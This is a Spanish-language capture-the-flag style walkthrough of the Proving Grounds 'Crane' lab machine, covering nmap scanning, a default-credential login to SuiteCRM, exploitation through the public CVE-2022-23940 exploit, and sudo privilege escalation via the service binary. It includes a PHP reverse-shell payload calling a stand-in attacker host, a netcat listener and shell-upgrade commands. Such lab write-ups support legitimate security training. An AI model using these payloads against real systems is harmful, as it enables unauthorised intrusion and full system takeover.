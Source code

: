 ```yaml
---
weigth: 1
title: "Crane"
date: 2024-05-02T11:24:09+02:00
draft: false
author: Antu
publishDate: 2024-05-01
tags: ["Walkthrough", "PG", "TjNull", "OSCP", "Easy", "Intermediate"]
categories: ["Proving Grounds"]
images: []
resources: 
- name: "featured-image"
  src: "preimagen.jpeg"

lightgallery: true

toc:
  auto: false
---
```

## Descripción

Dificultad: intermedia (valorada como easy)

En esta maquina de Proving Grounds Practice, veremos la explotación del software SuiteCRM a través de un exploit publico y una escalada de privilegios aprovechándonos de permisos sobre un binario que es posible ejecutar con sudo.

## Escaneo y Análisis de Vulnerabilidades

Iniciamos realizando un escaneo con nmap sobre la maquina crane

```bash
nmap -p- --open -T4 -Pn -n -vvv -sS 192.168.250.146  -oG allPorts
```
![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled.png)

Exportamos los resultados en formato grepeable para poder copiar y pegar los puertos obtenidos en un nuevo escaneo a través de la función extracPorts.

Esta función es un extra que podéis añadir a vuestra zshrc para agilizar vuestros escaneos.

Una vez en vuestra zshrc debeis cerrar la terminal y abrir una nueva para que se completen los cambios.

```bash
# Funcion extracPorts
# Extract nmap information
function extractPorts(){
    ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')"
    ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)"
    echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
    echo -e "\t[*] IP Address: $ip_address"  >> extractPorts.tmp
    echo -e "\t[*] Open ports: $ports\n"  >> extractPorts.tmp
    echo $ports | tr -d '\n' | xclip -sel clip
    echo -e "[*] Ports copied to clipboard\n"  >> extractPorts.tmp
    cat extractPorts.tmp; rm extractPorts.tmp
}
```

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%201.png)

Nos interesa el puerto 80 del cual obtendremos mas información en el siguiente escaneo.

```bash
nmap -p22,80,3306,33060 -sCV 192.168.250.146 -oN target
```

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%202.png)

Vemos que en el puerto 80 hay un servidor apache, por lo que pasamos a ver su contenido.

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%203.png)

Nos encontramos ante un login, lo primero que se me ocurre es probar credenciales por defecto como admin:admin y… 

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%204.png)

Exito!

## Explotación

Tras obtener unas credenciales validas he pasado a buscar si existe algún exploit publico para la versión de este software y encontré el siguiente.

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%205.png)

Exploit:

[https://github.com/manuelz120/CVE-2022-23940](https://github.com/manuelz120/CVE-2022-23940)

Ejecutando la siguiente linea de comandos obtenemos la reverse shell

```bash
# Nos ponemos a la escucha
nc -nlvp 80

# Ejecutamos exploit
./exploit.py -u admin -p admin --payload "php -r '\$sock=fsockopen(\"attacker-host\", 80); exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
```

y voila!

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%206.png)

Tras realizar un tratamiento de la tty

```bash
# tratamiento de la tty
script /dev/null -c bash
ctrl + z
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 59 columns 236

```

La primera flag se encuentra en /var/www

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%207.png)

## Escalda de privilegios

si comprobamos los permisos sudo del usuario vemos que podemos ejecutar el binario service con sudo.

```bash
sudo -l
```

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%208.png)

En la siguiente web encontramos como podemos explotar este binario con sudo

[https://gtfobins.github.io/gtfobins/service/#sudo](https://gtfobins.github.io/gtfobins/service/#sudo)

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%209.png)

Ejecutamos y…

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%2010.png)

La flag se encuentra en /root

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%2011.png)

Maquina Crane Pwned!
